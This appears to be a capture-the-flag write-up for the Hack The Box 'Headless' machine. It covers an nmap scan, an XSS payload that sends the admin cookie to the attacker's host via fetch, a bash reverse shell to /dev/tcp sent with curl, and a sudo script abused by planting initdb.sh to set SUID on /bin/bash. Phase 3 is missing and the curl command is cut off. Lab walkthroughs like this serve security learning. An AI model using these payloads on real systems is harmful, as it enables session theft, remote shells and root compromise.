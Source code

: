 ## Phase 1: Reconnaissance ### Nmap Scan Reconnaissance is the initial step where we gather information about the target system. 
shell nmap -sCV 10.10.11.8

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-26 02:27 EDT
Nmap scan report for headless.htb (10.10.11.8)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 06:25:09 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Explanation:

- Port 22 is open, indicating an SSH service running OpenSSH 9.2p1.
- Port 5000 is open, running a web service using Werkzeug/2.2.2 on Python/3.11.2.
- The is_admin cookie clue hints at potential privilege escalation paths.

## Phase 2: XSS Attack

### Why Consider XSS?

XSS vulnerabilities are common in web applications and occur when untrusted user input is processed and reflected back without proper sanitization. Here, the application mentions that the report is sent to administrators for investigation, suggesting that injected scripts may execute on the admin's browser.

### Key Indicators:

- Admin Cookie: Presence of is_admin cookie indicates privilege differentiation.
- Report Sent to Admin: Implies the potential for stored XSS.

### Exploiting XSS

**Payload:**
<img src=x onerror=fetch('http://your_ip:your_port/'+document.cookie);>


**Steps:**

1. **Inject Payload:** Inject the payload into the input form.
2. **Capture Cookie:** Set up a listener on your attacking machine to capture the admin's cookie
nc -lvnp your_port
3. **Replace Cookie:** Use the captured cookie to gain admin access.

### OWASP Zap for XSS Detection

OWASP Zap can automate the detection of XSS vulnerabilities.

**Automated Scan:**

- Identifies reflections of input fields.
- Highlights the lack of HTTPOnly flag on cookies, making them susceptible to theft via JavaScript.

**Fuzzing User-Agent:**

- Injects common XSS payloads to identify reflections and potential vulnerabilities.

### Why This XSS Works:

HTB simulates an admin reviewing reports by using a script that processes the reports. This is handled by app.py, which writes the reports to disk.

**Payload:**

shell



`/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.34/4444 0>&1'`

**Curl Request:**

shell



`curl --path-as-is -i -s -k -X POST \\     -H 'Host: 10.10.11.8:5000' -H 'Content-Length: 118' -H 'Cache-Control: max-age=0' -H 'Upgrade-Insecure-Requests: 1' -H 'Origin: http://10.10.11.8:5000' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H 'Referer: http...`

### Explanation:

The payload injects a command that opens a reverse shell to your attacking machine. The curl command sends this payload to the server.

## Phase 4: Privilege Escalation

### Enumeration:

Check sudo privileges:

shell


`sudo -l`

**Output:**

ruby


`Matching Defaults entries for dvir on headless:     env_reset, mail_badpass,     secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin,     use_pty  User dvir may run the following commands on headless:     (ALL) NOPASSWD: /usr/bin/syscheck`

### Explanation:

The user dvir can run /usr/bin/syscheck with root privileges without a password.

### Reviewing the Script:

Contents of /usr/bin/syscheck:

shell


`strings /usr/bin/syscheck`

**Key Part of the Script:**

shell



`#!/bin/bash if [ "$EUID" -ne 0 ]; then   exit 1 fi last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1) formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M") /usr/bin/echo "Last Kernel Modification Time: $formatted_time" disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}') /usr/bin/echo "Available disk space: $disk_space" load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}') /usr/bin/echo "System load average: $load_average" if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then   /usr/bin/echo "Database service is not running. Starting it..."   ./initdb.sh 2>/dev/null else   /usr/bin/echo "Database service is running." fi exit 0`

### Explanation:

The script runs with root privileges and executes ./initdb.sh if it is not running.

### Exploiting the Script:

Create a malicious initdb.sh script to escalate privileges.

**Payload:**

shell



`echo "chmod u+s /bin/bash" > /home/dvir/initdb.sh chmod +x /home/dvir/initdb.sh sudo /usr/bin/syscheck`

### Explanation:

The payload sets the SUID bit on /bin/bash, which allows any user to run bash with root privileges.

### Get a Root Shell:

/bin/bash -p

### Explanation:

Running bash -p after setting the SUID bit gives a root shell.

### Understanding bash -p:

The bash -p command runs the Bash shell in "privileged mode." This mode is particularly useful when the SUID bit is set on the Bash executable.

### SUID Bit:

SUID (Set User ID): This is a special type of file permission that allows a user to run an executable with the permissions of the executable's owner. When applied to the Bash shell, it allows any user running the shell to have the permissions of the file owner, which is typically root.

### Privileged Mode:

When you set the SUID bit on /bin/bash, running bash -p ensures that the shell retains its elevated privileges (root) even if it is executed by a non-privileged user.

### Why Use bash -p After SUID:

- Elevated Privileges: To exploit the elevated privileges granted by the SUID bit.
- Root Shell: Ensures the shell operates with root privileges, allowing you to execute commands as root without needing to prefix them with sudo.

